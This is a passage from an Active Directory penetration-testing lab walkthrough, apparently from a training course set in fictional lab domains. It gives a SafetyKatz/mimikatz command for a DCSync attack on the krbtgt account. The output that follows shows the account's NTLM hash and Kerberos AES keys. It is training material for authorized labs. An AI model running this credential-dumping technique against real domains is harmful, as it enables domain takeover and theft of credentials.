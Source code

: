 - **Leverage the Obtained Ticket to Run a DCSync Attack on the DC and Gain DA Privileges**

Run the below command to abuse the LDAP service ticket.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt📌
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt📌
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/12/2022 5:59:41 AM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🔑
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848🔑
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

[SNIP]
```
🚩

---
---
